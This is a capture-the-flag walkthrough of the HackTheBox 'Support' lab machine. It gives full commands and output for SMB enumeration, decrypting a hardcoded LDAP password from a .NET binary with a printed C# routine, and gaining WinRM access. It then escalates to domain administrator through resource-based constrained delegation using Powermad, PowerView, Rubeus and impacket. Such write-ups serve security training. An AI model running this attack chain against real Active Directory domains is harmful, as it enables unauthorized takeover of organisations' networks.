

# HackTheBox Support Walkthrough

As always, we start off with a rustscan.

rustscan --range 1-65535 -a 10.10.11.174 -- -A -T4 -Pn -sC -sV

Open 10.10.11.174:53
Open 10.10.11.174:88
Open 10.10.11.174:135
Open 10.10.11.174:139
Open 10.10.11.174:389
Open 10.10.11.174:445
Open 10.10.11.174:464
Open 10.10.11.174:593
Open 10.10.11.174:3268
Open 10.10.11.174:3269
Open 10.10.11.174:5985
Open 10.10.11.174:9389
Open 10.10.11.174:49668
Open 10.10.11.174:49674
Open 10.10.11.174:49664
Open 10.10.11.174:49686
Open 10.10.11.174:49700
Open 10.10.11.174:54010

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain?       syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|\_    bind
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2022-09-29 16:24:03Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn\_http    syn-ack Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|\_http-server-header: Microsoft-HTTPAPI/2.0
|\_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  ncacn\_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack Microsoft Windows RPC
49700/tcp open  msrpc         syn-ack Microsoft Windows RPC
54010/tcp open  msrpc         syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=9/29%Time=6335C6A9%P=x86\_64-alpine-linux-musl%r
SF:(DNSVersionBindReqTCP,20,"\\0\\x1e\\0\\x06\\x81\\x04\\0\\x01\\0\\0\\0\\0\\0\\0\\x07ver
SF:sion\\x04bind\\0\\0\\x10\\0\\x03");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|\_clock-skew: -2s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 34350/tcp): CLEAN (Timeout)
|   Check 2 (port 19493/tcp): CLEAN (Timeout)
|   Check 3 (port 45724/udp): CLEAN (Timeout)
|   Check 4 (port 18339/udp): CLEAN (Timeout)
|\_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|\_    Message signing enabled and required
| smb2-time: 
|   date: 2022-09-29T16:26:20
|\_  start\_date: N/A

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:28
Completed NSE at 16:28, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:28
Completed NSE at 16:28, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:28
Completed NSE at 16:28, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 244.24 seconds

We gain new information. Support.htb seems to be the DC domain name. Lets confirm by using dig to enumerate the DNS servers.

dig @10.10.11.174 +short support.htb 

Now we can enumerate SMB to see if there is anything interesting.

smbclient -N -L \\\\10.10.11.174

smbclient -N \\\\\\\\10.10.11.174\\\\support-tools

Support-tools may be hiding relevant files.

Let's download all files to our local machine.

Unzip UserInfo.exe.zip and try to run the file. I used win64 but could not get the program to stop crashing. I gave up and moved to a windows machine.

The program seems to be searching LDAP users, let's check if the .exe file has any connection credentials hardcoded. Download dnSpy [https://github.com/dnSpy/dnSpy/releases/tag/v6.1.8](https://github.com/dnSpy/dnSpy/releases/tag/v6.1.8)

Upon inspecting the file. It wasn't hard to find the encrypted password.

getPassword() method is decrypting the password. All we have to do is run the code in our chosen programming language with slight variations. I chose to use C#.

using System.Text;

Console.WriteLine("Hello, World!");
byte\[\] array = Convert.FromBase64String("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E");
byte\[\] array2 = array;
byte\[\] key = Encoding.ASCII.GetBytes("armando");
for (int i = 0; i < array.Length; i++)
{
    array2\[i\] = (byte)(array\[i\] ^ key\[i % key.Length\] ^ 223);
}
Console.WriteLine(Encoding.Default.GetString(array2));

The encrypted password is now decrypted!

Now we can go back to our kali machine and search LDAP for all users.

ldapsearch -x -H ldap://10.10.11.174 -D 'SUPPORT\\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB" | tee ldap.txt

Browsing through ldap.txt. The account support has a string following 'info:' that looks a lot like a password.

We'll try connecting using evil-winrm.

And we've got our foothold on the machine!

We'll run winpeas.exe since it's already on the target machine. Nothing interesting comes back.

We'll need to download Powerview and Powermad and then upload and import them into win-rm.

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

[https://github.com/Kevin-Robertson/Powermad](https://github.com/Kevin-Robertson/Powermad)

Let's check our object creation permissions.

Get-DomainObject -Identity "dc=support,dc=htb" -Domain support.htb

We're able to add up to 10 computers to the domain. Let's try adding a new object.

New-MachineAccount -MachineAccount MYACC -Password $(ConvertTo-SecureString 'password123' -AsPlainText -Force) -Verbose
Get-DomainComputer myacc -Properties objectsid

The code below was borrowed from a friend. It's used to create a new security descriptor.

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5101)"
$SDBytes = New-Object byte\[\] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

Now we need to upload Rubeus.exe into evil-winrm.

upload /root/Rubeus.exe
./Rubeus.exe hash /password:password123 /user:MYACC$ /domain:support.htb

Save the aes256 hash because we'll use it later to generate a Kerberos ticket.

back on the kali machine. We will use the aes key to impersonate admin.

getST.py support.htb/MYACC -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey C832FA9E499757C08A5AC999526613B97D6D5C6B0ABA5158512977266B817F72

export KRB5CCNAME=administrator.ccache
impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k

And we're admin!

